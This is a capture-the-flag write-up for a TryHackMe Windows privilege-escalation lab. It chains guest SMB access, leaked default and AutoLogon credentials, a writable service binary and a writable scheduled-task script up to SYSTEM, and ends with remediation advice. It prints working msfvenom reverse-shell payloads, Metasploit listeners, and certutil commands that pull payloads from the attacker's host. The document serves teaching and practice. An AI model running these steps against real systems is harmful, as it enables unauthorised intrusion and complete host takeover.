# Windows Jump Write-up

**Platform**: TryHackMe <br>
**Room**: Windows Jump (https://tryhackme.com/room/windowsjump) <br>
**Category**: Network | Windows Privilege Escalation <br>
**Target**: Windows <br>
**Techniques**: SMB Enumeration, Information Disclosure, AutoLogon Credential Disclosure, Insecure Service Permissions, Service Binary Replacement, Scheduled Task Abuse <br>
**Final Goal**: SYSTEM

## Executive Summary

This assessment evaluated the security of a Windows workstation that appeared to have been left in service following organisational changes. Although the system initially exposed only limited guest-level access, a series of configuration weaknesses enabled an attacker to progressively escalate privileges until complete control of the host was achieved.

The compromise relied on insecure file sharing, exposed credentials, overly permissive file permissions, and misconfigured scheduled tasks rather than software vulnerabilities. While each issue represented a relatively small security weakness in isolation, together they formed a complete attack path from an unauthenticated user to **NT AUTHORITY\SYSTEM**.

The walkthrough documents each stage of the assessment to demonstrate how common Windows misconfigurations can be identified, validated and combined during a penetration test.

---

## Overview

Windows Jump simulates an internal Windows workstation where several user accounts interact with services and scheduled tasks. The objective is to assess the exposed services, obtain an initial foothold, and identify privilege escalation opportunities until full SYSTEM privileges are obtained.

The room demonstrates a realistic Windows privilege escalation chain involving:

- Service enumeration
- SMB share enumeration
- Information disclosure
- AutoLogon credential disclosure
- Service binary replacement
- Scheduled task abuse

---

### Attack Chain



---

## Initial Enumeration

The assessment begins by identifying the services exposed by the target host.

```bash
nmap -A 10.114.160.201
```

The `-A` option enables operating system detection, service version detection, default NSE scripts, and traceroute, providing a broad overview of the target during the initial reconnaissance phase.

The scan reveals several accessible services.



| Port | Service | Observation |
|------|---------|-------------|
| 135 | MSRPC | Indicates Microsoft Remote Procedure Call services are available. |
| 139 | NetBIOS | Supports legacy SMB communication. |
| 445 | SMB | Primary target for share enumeration and authentication testing. |
| 3389 | RDP | May provide remote desktop access if valid credentials are obtained. |

Since SMB is exposed, the assessment continues by determining whether anonymous or Guest access is permitted.

## SMB Enumeration

The initial Nmap scan identified an SMB service exposed on port **445**. Since Windows environments frequently allow guest access to shared folders, the next objective is to determine whether any SMB shares are accessible without authentication.

List the available SMB shares using NetExec:

```bash
nxc smb 10.114.160.201 -u 'Guest' -p '' --shares
```

The output confirms that the server accepts anonymous (`Guest`) authentication.



Several default administrative shares are present:

- `ADMIN$`
- `C$`
- `IPC$`

In addition, a publicly accessible share named **Public** is available.

The scan also confirms that the target is running a **64-bit** version of **Windows 10 / Windows Server 2019**, information that will become relevant later when generating payloads.

Since the **Public** share is accessible without credentials, the assessment continues by examining its contents.

---

## Initial Access: `Guest` → `thmuser`

Connect to the public SMB share using `smbclient`.

```bash
smbclient //10.114.160.201/Public -U 'Guest'
```

When prompted for a password, simply press **Enter**.

After connecting successfully, list the available files.

```bash
ls
```

The share contains a file named:

- `welcome.txt`

Download it to the AttackBox.

```bash
get welcome.txt
```



Review its contents.

```bash
cat welcome.txt
```



The file discloses the default credentials assigned to new employees, providing valid credentials for the **thmuser** account.

During the initial enumeration, Nmap identified **Remote Desktop Protocol (RDP)** on port **3389**. Since valid credentials have now been obtained, RDP provides an interactive graphical session on the target machine.

Connect using **xfreerdp**.

```bash
xfreerdp /u:thmuser /p:'<Password of THM user>' /v:10.114.160.201 /dynamic-resolution
```

Accept the certificate when prompted.

After authentication succeeds, open a Command Prompt and verify the current user.

```cmd
whoami
```

The output confirms that the session is running as **thmuser**.



To identify additional user accounts on the system, list the contents of the `C:\Users` directory.

```cmd
dir C:\Users
```

The output reveals the users involved in the privilege escalation path.

Navigate to the desktop of `thmuser` and read the first flag.

```cmd
type C:\Users\thmuser\Desktop\flag1.txt
```



With initial access established as **thmuser**, the next objective is to identify opportunities to escalate privileges to **notadmin**.

## Privilege Escalation: `thmuser` → `notadmin`

With access established as `thmuser`, the next objective is to identify opportunities to execute commands as another user.

One common source of credential disclosure on Windows systems is **AutoLogon**. Administrators may configure a user account to sign in automatically when the system starts, resulting in credentials being stored within the Windows Registry.

Query the AutoLogon registry keys:

```cmd
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

The output reveals credentials for the **notadmin** account.



Since valid credentials have now been recovered, use the built-in `runas` command to start a new Command Prompt as `notadmin`.

```cmd
runas /user:PRIVESC\notadmin cmd.exe
```

When prompted, enter the recovered password.

Authentication succeeds, opening a new Command Prompt running under the security context of **notadmin**.

To verify access, read the second flag from the user's Desktop.

```cmd
type C:\Users\notadmin\Desktop\flag2.txt
```



With privileges successfully escalated to **notadmin**, the next objective is to identify opportunities to compromise the **svcadmin** service account.

---

## Privilege Escalation: `notadmin` → `svcadmin`

The account name **svcadmin** suggests that it is used to run one or more Windows services. The next step is therefore to identify any services configured to execute under this account.

Enumerate the installed services and filter the output for `svcadmin`.

```cmd
wmic service get name,pathname,startname | findstr /i "svcadmin"
```

The command identifies the following service executable:

```text
C:\Windows\THMSVC\svc.exe
```



Since service executables often run with the privileges of the account configured to start them, the next step is to determine whether the executable or its containing directory can be modified.

Inspect the permissions of the service directory.

```cmd
icacls C:\Windows\THMSVC\
```

The output shows that the **notadmin** account has **Full Control (F)** over the directory.



Because the service executable is writable, it can be replaced with a malicious executable that will execute with the privileges of **svcadmin** when the service starts.

Generate a 64-bit stageless reverse shell on the AttackBox using `msfvenom`.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.114.101.147 LPORT=4444 -f exe-service -o svc.exe
```

Replace the `LHOST` value with the IP address of your AttackBox.

The payload uses the **windows/x64** architecture because the earlier SMB enumeration identified the target as a **64-bit** system.

The **exe-service** output format is used because the payload is replacing a Windows service executable rather than a standard application.



Next, prepare a listener using Metasploit.

Start the framework.

```bash
msfconsole
```

Configure the `multi/handler`.

```text
use /exploit/multi/handler
set payload windows/x64/shell_reverse_tcp
set LHOST 10.114.101.147
set LPORT 4444
run
```

Ensure that the payload, `LHOST`, and `LPORT` values match those used when generating the executable.



To transfer the payload to the target, start a Python web server from the directory containing `svc.exe`.

```bash
python3 -m http.server
```

The server listens on port **8000**.

Back on the target machine, download the payload and replace the original service executable using `certutil`.

```cmd
certutil -urlcache -split -f http://10.114.101.147:8000/svc.exe C:\Windows\THMSVC\svc.exe
```



The AttackBox confirms that the file has been downloaded successfully.



Start the service.

```cmd
sc start THMSvc
```



Once the service starts, the reverse shell connects back to the Metasploit listener.

The session is established as **svcadmin**.



Read the third flag from the user's Desktop.

```cmd
type C:\Users\svcadmin\Desktop\flag3.txt
```



With access established as **svcadmin**, the final objective is to escalate privileges to **NT AUTHORITY\SYSTEM**.

## Privilege Escalation: `svcadmin` → `NT AUTHORITY\SYSTEM`

With access established as `svcadmin`, the final objective is to identify opportunities to execute code with **SYSTEM** privileges.

One common privilege escalation technique on Windows involves scheduled tasks. If a task executes with elevated privileges and references a file that can be modified by a lower-privileged user, it may be possible to execute arbitrary code as the account running the task.

Navigate to the scheduled tasks directory.

```cmd
cd C:\Windows\Tasks
dir
```

Among the files is a batch script named:

- `cleanup.bat`



Review its contents.

```cmd
type cleanup.bat
```

The script contains:

```batch
@echo off
del /Q /F "%TEMP%\*.tmp" 2>nul
```

The next step is to determine whether the current user can modify the file.

```cmd
icacls cleanup.bat
```

The output shows that **svcadmin** has **Modify (M)** permissions over the script.

Additionally, the permissions indicate that both **BUILTIN\Administrators** and **NT AUTHORITY\SYSTEM** have **Full Control (F)**.



Since the batch file is writable and executed with elevated privileges, it can be modified to launch a malicious executable. When the scheduled task runs, the payload will execute as **NT AUTHORITY\SYSTEM**.

Generate a second reverse shell executable on the AttackBox using `msfvenom`.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.114.101.147 LPORT=4445 -f exe -o shell.exe
```

Replace the `LHOST` value with the IP address of your AttackBox.

Unlike the previous stage, the payload is generated using the **exe** format because it will be executed directly from a batch script rather than replacing a Windows service executable.

Use a different listening port from the previous payload.



Configure another Metasploit listener.

```text
use /exploit/multi/handler
set payload windows/x64/shell_reverse_tcp
set LHOST 10.114.101.147
set LPORT 4445
run
```

Ensure that the payload, `LHOST`, and `LPORT` values match those used when generating `shell.exe`.



The Python web server started earlier can be reused to transfer the executable to the target.

From the existing Metasploit session running as `svcadmin`, download the payload.

```cmd
certutil -urlcache -split -f http://10.114.101.147:8000/shell.exe C:\Windows\Tasks\shell.exe
```

Replace the contents of `cleanup.bat` so that it executes the downloaded payload.

```cmd
cmd /c "echo C:\Windows\Tasks\shell.exe > C:\Windows\Tasks\cleanup.bat"
```



When the scheduled task executes, it runs the modified batch script with **SYSTEM** privileges.

The Metasploit listener receives a new reverse shell running as **NT AUTHORITY\SYSTEM**.



To confirm complete compromise of the host, read the final flag stored in the root of the `C:\` drive.

```cmd
type C:\flag4.txt
```



Successfully retrieving the final flag confirms privilege escalation from **Guest** to **NT AUTHORITY\SYSTEM**, completing the assessment.

# Conclusion

This assessment demonstrated how a series of independent Windows misconfigurations could be chained together to achieve complete compromise of the target system.

The attack began with anonymous access to an SMB share, which exposed default user credentials. AutoLogon credentials stored in the Windows Registry then enabled privilege escalation to another user account. Writable service files and scheduled task scripts were subsequently abused to execute arbitrary code under increasingly privileged accounts, ultimately resulting in execution as **NT AUTHORITY\SYSTEM**.

Although each individual vulnerability appeared relatively limited in isolation, their combination provided a complete attack path from unauthenticated access to full system compromise. The room highlights the importance of secure credential management, correctly configured file permissions, and regular reviews of privileged services and scheduled tasks.

---

# Remediation Recommendations

The compromise of the Windows host was achieved by chaining together several independent vulnerabilities. Addressing the following findings would significantly reduce the attack surface and prevent the demonstrated attack path.

| Finding | Recommendation |
|---------|----------------|
| **Anonymous SMB Access** | Disable anonymous access to SMB shares wherever possible and restrict shared resources to authenticated users. Review share permissions regularly to ensure that only authorised users have access. |
| **Exposed Credentials** | Avoid storing default or operational credentials in files accessible to untrusted users. Sensitive information should be managed securely and removed from publicly accessible shares. |
